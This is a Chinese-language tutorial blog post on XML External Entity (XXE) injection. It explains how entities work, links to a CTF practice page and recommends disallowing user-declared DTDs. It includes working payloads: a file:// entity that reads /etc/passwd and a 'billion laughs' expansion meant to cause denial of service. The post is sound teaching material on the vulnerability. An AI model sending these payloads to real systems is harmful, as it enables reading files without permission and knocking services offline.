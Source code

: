 ```yaml
---
title: XML外部实体注入漏洞
date: 2018-02-19 15:34:46
tags: ["漏洞","Web","xml"]
categories: "漏洞"
thumbnail:
---
```


# XML外部实体注入漏洞（XXE）

1. ## 存在版本
    libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。PHP版本并不影响XXE利用。
2. ## 相关知识
    1. 什么是XML外部实体？

        如果你了解XML，你可以把XML理解为一个用来定义数据的东东。因此，两个采用不同技术的系统可以通过XML进行通信和交换数据。 比如，下图就是一个用来描述一个职工的XML文档样本，其中的'name','salary','address'被称为XML的元素。
        ```xml
        <?xml version="1.0"?>
        <employee>
        <name>DedSec</name>
        <salary>0.5</salary>
        <address>China</address>
        </employee>
        ```
        有些XML文档包含system标识符定义的“实体”，这些XML文档会在DOCTYPE头部标签中呈现。这些定义的’实体’能够访问本地或者远程的内容。比如，下面的XML文档样例就包含了XML ‘实体’。
        ```xml
        <?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE foo [
        <!ENTITY entityex SYSTEM "file:///etc/passwd">
        ]>
        <abc>&entityex;</abc>
        ```
        在上面的代码中， XML外部实体 ‘entityex’ 被赋予的值为：file://etc/passwd。在解析XML文档的过程中，实体’entityex’的值会被替换为URI(file://etc/passwd)内容值（也就是passwd文件的内容）。 关键字’SYSTEM’会告诉XML解析器，’entityex’实体的值将从其后的URI中读取。因此，XML实体被使用的次数越多，越有帮助。

    2. 什么是XML外部实体攻击？

        有了XML实体，关键字’SYSTEM’会令XML解析器从URI中读取内容，并允许它在XML文档中被替换。因此，攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现。 简单来说，攻击者强制XML解析器去访问攻击者指定的资源内容（可能是系统上本地文件亦或是远程系统上的文件）。比如，下面的代码将获取系统上folder/file的内容并呈献给用户。

        ```xml
        <?xml version="1.0" encoding="utf-8"?> 
        <!DOCTYPE xxe [
        <!ENTITY xxe SYSTEM "file:///folder/file" >]>
        <root>
        <abc>&xxe;</abc>
        </root>
        ```
3. ## 如何发现
    ![check](https://res.dedsec.club/php_xxe/check.png)
    ![attack](https://res.dedsec.club/php_xxe/attack.png)
4. ## [亲手试试](http://ctf.dedsec.club/cans/php_xxe/simplexml_load_string.php)
5. ## 影响
    此漏洞非常危险, 因为此漏洞会造成服务器上敏感数据的泄露，和潜在的服务器拒绝服务攻击。
6. ## Payload
    - 任意文件读取
    ```xml
    <?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <root>
    <name>&xxe;</name>
    </root>
    ```
    - DDos
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
7. ## 补救措施
    上面讨论的主要问题就是XML解析器解析了用户发送的不可信数据。然而，要去校验DTD(document type definition)中SYSTEM标识符定义的数据，并不容易，也不大可能。大部分的XML解析器默认对于XXE攻击是脆弱的。因此，最好的解决办法就是配置XML处理器去使用本地静态的DTD，不允许XML中含有任何自己声明的DTD。